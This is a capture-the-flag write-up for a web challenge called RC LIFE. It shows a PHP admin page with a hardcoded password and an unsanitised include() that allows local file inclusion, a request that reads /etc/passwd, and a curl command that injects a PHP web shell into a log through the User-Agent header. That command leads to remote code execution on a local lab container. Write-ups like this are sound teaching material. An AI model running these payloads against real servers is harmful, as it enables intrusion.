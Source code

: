 # RC LIFE (300 points)

RC Life is probably one of the hardest challenges in my track, mostly
because people stopped looking after finding the first vulnerability.

## robots.txt & git repository

The challenge consisted of a simple home page with no dynamic functionality.

The first step of the challenge was to discover the robots.txt file located
at http://localhost:21000/robots.txt.

This reveals two interesting links for us :
 - http://localhost:21000/admin/ (an admin login page)
 - http://localhost:21000/docs/installation.md (instructions to setup the website)

Here's what the instruction page looks like :

```
# RC-LIFE Installation Notes
Here are the installation notes for the deployment of the RC-LIFE website.

## Installation
1. Setup Apache Server (To do)
2. `cd /var/www/`
3. `git clone https://github.com/rc-life/website`
4. `mv website html`

## Browsing repository
If you are unfamiliar with git, use `git instaweb --httpd=webrick -p 21001`.
This will give you access to a web view where you can browse through the
source code/branches/recent changes of the application.
```

Seems like the application comes directly from a git repository... Git repos
include a special `.git` folder which contains the metadata and objects
necessary to reconstruct the source code.

Therefore, publically exposing a `.git` repo also means that we can
reconstruct the source code of the RC-LIFE web app. More on this here : https://en.internetwache.org/dont-publicly-expose-git-or-how-we-downloaded-your-websites-sourcecode-an-analysis-of-alexas-1m-28-07-2015/

Nevertheless, if you didn't know that, the installation notes also suggest
using `git instaweb --httpd=webrick -p 21001` to view the source through a webview.

The `-p 21001` option specifies the port where the webserver will listen on.
We can confirm that the webserver is running by visiting http://localhost:21001/.

## LFI

From the `git instaweb` source code viewer, we can take a look at the
`/admin/index.php` page from earlier to figure out how to login.

Login is pretty straightforward.

```
   1 <?php
   2   error_reporting(0);
   3   session_start();
   4   if (isset($_POST['username']) && isset($_POST['password'])) {
   5     if ($_POST['username'] == 'admin' && $_POST['password'] == 'rclifewootwoot') {
   6       $_SESSION['logged_in'] = true;
   7     } else {
   8       $_SESSION['logged_in'] = false;
   9       $msg = 'Invalid username/password';
  10     }
  11   }
  12
  13   if ($_SESSION['logged_in']) {
  14     if (!isset($_GET['next'])) {
  15       $_GET['next'] = '898111356132e7d5961b6c194be49291.php';
  16     }
  17     include($_GET['next']);
  18     die();
  19   }
```

The username is `admin` and the password is `rclifewootwoot`.
The important part here is that, once logged in, the web application will
include anything from the `$_GET['next']` variable, which is a variable
we control. This is an [LFI vulnerability](https://en.wikipedia.org/wiki/File_inclusion_vulnerability).

We can confirm the issue by visiting http://localhost:21000/admin/?next=/etc/passwd
onced logged in. This link should leak us the /etc/passwd file of the
server.

## RCE!

This was probably the hardest part of the challenge.
A traditional way to leverage an LFI into an RCE is to
inject PHP into log files such as /var/log/apache/access.log.

But since the application is running in a docker container, these log files
aren't available (they are redirected to STDOUT and STDERR).

The key here is `git instaweb` again. Since /var/log/apache/access.log
is used for the server on port `21000`, where are the logs for the server
running on port `21001`?

`git instaweb` is actually a builtin command with `git`. So you can run
a local installation yourself and inspect its inner workings.

```
$ mkdir repo
$ cd repo
$ git init
$ git instaweb --httpd=webrick -p 21001
$ find . -iname *log*
./.git/gitweb/access.log
./.git/gitweb/error.log
```

Seems like an access.log and error.log are available in the `.git` folder.

Finally, we inject PHP in it and include it through the LFI to gain RCE.

```
# This will populate the access.log file with PHP code in the user-agent section
# ... of the log
curl http://127.0.0.1:21001/ --user-agent '<?php system($_GET[c]); ?>'
```

Then we visit
`http://localhost:21000/admin/?next=../.git/gitweb/access.log&c=ls -lah /` :

```


10.133.9.1 - - [08/Nov/2017:16:51:07 UTC] "GET / HTTP/1.1" 200 3084 "-" "total 76K
drwxr-xr-x   1 root root 4.0K Nov  8 15:44 .
drwxr-xr-x   1 root root 4.0K Nov  8 15:44 ..
-rwxr-xr-x   1 root root    0 Nov  8 15:44 .dockerenv
drwxr-xr-x   1 root root 4.0K Oct 21 18:13 bin
drwxr-xr-x   2 root root 4.0K Jul 13 13:01 boot
drwxr-xr-x   5 root root  340 Nov  8 15:44 dev
drwxr-xr-x   1 root root 4.0K Nov  8 15:44 etc
drwxr-xr-x   2 root root 4.0K Jul 13 13:01 home
drwxr-xr-x   1 root root 4.0K Sep 14 23:58 lib
drwxr-xr-x   2 root root 4.0K Sep  7 00:00 lib64
drwxr-xr-x   2 root root 4.0K Sep  7 00:00 media
drwxr-xr-x   2 root root 4.0K Sep  7 00:00 mnt
drwxr-xr-x   2 root root 4.0K Sep  7 00:00 opt
dr-xr-xr-x 128 root root    0 Nov  8 15:44 proc
drwx------   1 root root 4.0K Sep 15 00:42 root
drwxr-xr-x   1 root root 4.0K Nov  8 15:44 run
drwxr-xr-x   2 root root 4.0K Sep  7 00:00 sbin
drwxr-xr-x   2 root root 4.0K Sep  7 00:00 srv
dr-xr-xr-x  13 root root    0 Nov  8 15:44 sys
-rw-r--r--   1 root root   90 Nov  6 22:35 theeee_flaaag_issss_heeeeere.txt
drwxrwxrwt   1 root root 4.0K Nov  8 16:51 tmp
drwxr-xr-x   1 root root 4.0K Sep  7 00:00 usr
drwxr-xr-x   1 root root 4.0K Sep 15 00:08 var
"
```

*RCE!*

```
# cat /theeee_flaaag_issss_heeeeere.txt

// Congratz :) Never heard of "git instaweb" before..
HF-ee704efa99f55aec82cb363dbe3f01ad
```
